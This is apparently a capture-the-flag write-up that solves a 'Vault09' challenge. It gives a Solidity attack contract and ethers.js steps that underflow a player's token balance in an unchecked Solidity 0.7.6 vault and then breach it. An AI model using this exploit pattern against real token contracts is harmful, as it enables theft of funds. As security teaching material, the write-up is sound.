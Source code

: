 \documentclass[12pt]{article}
\begin{document}
First, deploy an attack contract that will interact with the vulnerable vault. Then, from your account (which starts with 1 token), approve the attack contract to spend tokens on your behalf. Next, have the attack contract call \texttt{transferFrom} to transfer more tokens than you actually have, causing an integer underflow in your token balance.

\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

interface IVault09 {
    function transferFrom(address from, address to, uint256 amount) external;
}

contract Vault09Attack {
    // Reference to the vulnerable vault contract
    IVault09 public vault;
    // Address of the player who deployed this contract
    address immutable playerAddress;
    
    constructor(address _vaultAddress) {
        vault = IVault09(_vaultAddress);
        playerAddress = msg.sender;
    }
    
    /**
     * @notice Performs the attack by triggering an underflow in the vault contract
     * @dev This exploit works because Solidity 0.7.6 doesn't have default overflow/underflow protection
     */
    function attack() external {      
        // Transfer 1 token from player that has 0 tokens 
        // The player amount will underflow and become 2**256 - 1
        vault.transferFrom(playerAddress, address(this), 1);
    }
}
\end{lstlisting}

\noindent
Complete the attack with the following JavaScript code:

\begin{verbatim}
// Deploy the attacker contract from the player's account.
attackVault = await ethers.deployContract("Vault09Attack", [vault.target], player);
await attackVault.waitForDeployment();

console.log("Exploit contract deployed at:", attackVault.target);

// Player approves the exploit contract to spend any 2 tokens
await vault.connect(player).approve(attackVault.target, 2);

// Player transfers 1 token to the attack contract
await vault.connect(player).transferFrom(playerAddress, attackVault.target, 1);

// Execute the attack
const tx = await attackVault.attack();
await tx.wait();

// Break the vault
await vault.connect(player).breachVault();
\end{verbatim}
\end{document}
